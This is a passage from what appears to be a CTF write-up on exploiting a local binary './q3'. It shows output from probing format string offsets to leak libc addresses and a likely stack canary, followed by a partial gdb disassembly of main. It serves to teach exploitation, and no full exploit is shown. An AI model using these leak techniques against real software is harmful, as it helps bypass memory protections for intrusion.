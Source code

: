 ```asm

[*] Stopped process './q3' (pid 8345)
[+] Starting local process './q3': pid 8347
14 AAAA 1

[*] Stopped process './q3' (pid 8347)
[+] Starting local process './q3': pid 8349
15 AAAA 7fffffffde88

[*] Stopped process './q3' (pid 8349)
[+] Starting local process './q3': pid 8351
16 AAAA 100008000

[*] Stopped process './q3' (pid 8351)
[+] Starting local process './q3': pid 8353
17 AAAA 55555555477a

[*] Stopped process './q3' (pid 8353)
[+] Starting local process './q3': pid 8355
18 AAAA 0

[*] Stopped process './q3' (pid 8355)
[+] Starting local process './q3': pid 8357
19 AAAA 8f241916698aca1f                                     <--- This is of interest

[*] Stopped process './q3' (pid 8357)
```

So, the addresses starting from `0x7f` are libc addresses and we have offset for our input at 8 but what are those at offset 11 and 19? Whatever it is, this is something we might need. Upon discussing this from a guy(super helpful) named Faith, he told me that it **could be** stack canary address. Now, if we didn't had a format string vulnerability then we had to bruteforce the value,luckily enough we have that vulnerability here.

To be more broad:-
I'll be using gdb-gef as we have to inspect some of the registers, et's break the `__main__` function:-

```asm
gef➤  disas main
Dump of assembler code for function main:
   0x000000000000077a <+0>:	push   rbp
   0x000000000000077b <+1>:	mov    rbp,rsp
   0x000000000000077e <+4>:	sub    rsp,0x30
   0x0000000000000782 <+8>:	mov    rax,QWORD PTR fs:0x28
   0x000000000000078b <+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x000000000000078f <+21>:	xor    eax,eax
   0x0000000000000791 <+23>:	mov    QWORD PTR [rbp-0x20],0x0
   0x0000000000000799 <+31>:	mov    QWORD PTR [rbp-0x18],0x0
   0x00000000000007a1 <+39>:	mov    rax,QWORD PTR [rip+0x200868]        # 0x201010 <stdin@@GLIBC_2.2.5>
   0x00000000000007a8 <+46>:	mov    QWORD PTR [rbp-0x28],rax
   0x00000000000007ac <+50>:	lea    rdi,[rip+0x101]        # 0x8b4
   0x00000000000007b3 <+57>:	mov    eax,0x0
   0x00000000000007b8 <+62>:	call   0x640 <printf@plt>
   0x00000000000007bd <+67>:	mov    rdx,QWORD PTR [rbp-0x28]
   0x00000000000007c1 <+71>:	lea    rax,[rbp-0x20]
   0x00000000000007c5 <+75>:	mov    esi,0x10
   0x00000000000007ca <+80>:	mov    rdi,rax
   0x00000000000007cd <+83>:	call   0x650 <fgets@plt>
   0x00000000000007d2 <+88>:	lea    rdi,[rip+0xe9]        # 0x8c2
   0x00000000000007d9 <+95>:	call   0x620 <puts@plt>
   0x00000000000007de <+100>:	lea    rax,[rbp-0x20]
   0x00000000000007e2 <+104>:	mov    rdi,rax
```